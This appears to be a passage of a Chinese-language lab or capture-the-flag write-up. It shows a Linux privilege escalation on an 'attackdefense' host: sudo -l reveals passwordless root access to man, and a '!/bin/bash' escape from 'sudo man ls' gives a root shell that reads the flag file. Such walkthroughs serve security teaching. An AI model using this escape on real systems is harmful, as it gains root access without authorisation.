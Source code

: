 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
student:x:999:999:student:/home/app:/bin/sh
student@attackdefense:~$ id
uid=999(student) gid=999(student) groups=999(student)
student@attackdefense:~$ whoami
student
student@attackdefense:~$ groups
student
student@attackdefense:~$ groups student
student : student
```

`sudo -l` 是用来列出当前用户可以使用 `sudo` 命令执行的权限列表。当用户在终端中执行 `sudo -l` 命令时，系统会检查 `/etc/sudoers` 文件中的配置，以确定该用户是否被授权执行某些命令或程序。如果用户有权限，则会显示出该用户可以执行的命令列表。如果用户没有权限，则会显示出相应的错误信息。

```
student@attackdefense:~$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /usr/bin/man
```

```
student@attackdefense:~$ man ls
```

```
student@attackdefense:~$ sudo man cat
```

```
student@attackdefense:~$ sudo man ls
```

```
!/bin/bash
root@attackdefense:~# cd /root
root@attackdefense:/root# ls
flag
root@attackdefense:/root# cat flag
74f5cc752947ec8a522f9c49453b8e9a
root@attackdefense:/root# sudo -l
Matching Defaults entries for root on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on attackdefense:
    (ALL : ALL) ALL
root@attackdefense:/root# id
uid=0(root) gid=0(root) groups=0(root)
```
